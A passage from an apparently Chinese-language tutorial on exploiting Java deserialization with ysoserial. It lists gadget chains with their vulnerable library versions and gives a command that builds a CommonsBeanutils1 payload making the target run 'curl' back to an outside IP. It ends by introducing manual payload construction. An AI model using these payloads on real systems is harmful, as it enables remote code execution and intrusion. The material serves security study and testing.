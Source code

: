 ```shell script
     CommonsCollections5 @matthias_kaiser, @jasinner            commons-collections:3.1
     CommonsCollections6 @matthias_kaiser                       commons-collections:3.1
     CommonsCollections7 @scristalli, @hanyrax, @EdoardoVignati commons-collections:3.1
     FileUpload1         @mbechler                              commons-fileupload:1.3.1, commons-io:2.4
     Groovy1             @frohoff                               groovy:2.3.9
     Hibernate1          @mbechler
     Hibernate2          @mbechler
     JBossInterceptors1  @matthias_kaiser                       javassist:3.12.1.GA, jboss-interceptor-core:2.0.0.Final, cdi-api:1.0-SP1, javax.interceptor-api:3.1, jboss-interceptor-spi:2.0.0.Final, slf4j-api:1.7.21
     JRMPClient          @mbechler
     JRMPListener        @mbechler
     JSON1               @mbechler                              json-lib:jar:jdk15:2.4, spring-aop:4.1.4.RELEASE, aopalliance:1.0, commons-logging:1.2, commons-lang:2.6, ezmorph:1.0.6, commons-beanutils:1.9.2, spring-core:4.1.4.RELEASE, commons-collections:3.1
     JavassistWeld1      @matthias_kaiser                       javassist:3.12.1.GA, weld-core:1.1.33.Final, cdi-api:1.0-SP1, javax.interceptor-api:3.1, jboss-interceptor-spi:2.0.0.Final, slf4j-api:1.7.21
     Jdk7u21             @frohoff
     Jython1             @pwntester, @cschneider4711            jython-standalone:2.5.2
     MozillaRhino1       @matthias_kaiser                       js:1.7R2
     MozillaRhino2       @_tint0                                js:1.7R2
     Myfaces1            @mbechler
     Myfaces2            @mbechler
     ROME                @mbechler                              rome:1.0
     Spring1             @frohoff                               spring-core:4.1.4.RELEASE, spring-beans:4.1.4.RELEASE
     Spring2             @mbechler                              spring-core:4.1.4.RELEASE, spring-aop:4.1.4.RELEASE, aopalliance:1.0, commons-logging:1.2
     URLDNS              @gebl
     Vaadin1             @kai_ullrich                           vaadin-server:7.7.14, vaadin-shared:7.7.14
     Wicket1             @jacob-baines                          wicket-util:6.23.0, slf4j-api:1.6.4
```

比如如果已知目标程序依赖了`CommonsBeanutils1`对应的依赖`commons-beanutils:1.9.2, commons-collections:3.1, commons-logging:1.2`，
则可以：
```shell script
java -jar ysoserial-all.jar CommonsBeanutils1 'curl 172.20.26.42:8081' | base64
```
生成执行base64的payload。

## 手动构造
可以参考：https://www.leavesongs.com/PENETRATION/commons-beanutils-without-commons-collections.html

手动构造需要写代码，比较繁琐。所以我们以简化的情景来假设。
假设我们直接有了目标程序的jar包，则可以解压得到依赖库(lib目录)，然后新建一个Java项目，把依赖jar包全导入进去。
假设目标程序依赖了`commons-beanutils-1.9.2`，我们从mvn核心库可以看到它存在CVE:
https://mvnrepository.com/artifact/commons-beanutils/commons-beanutils/1.9.2
{% img /images/2022-09/cve.png 800 1200 cve %}
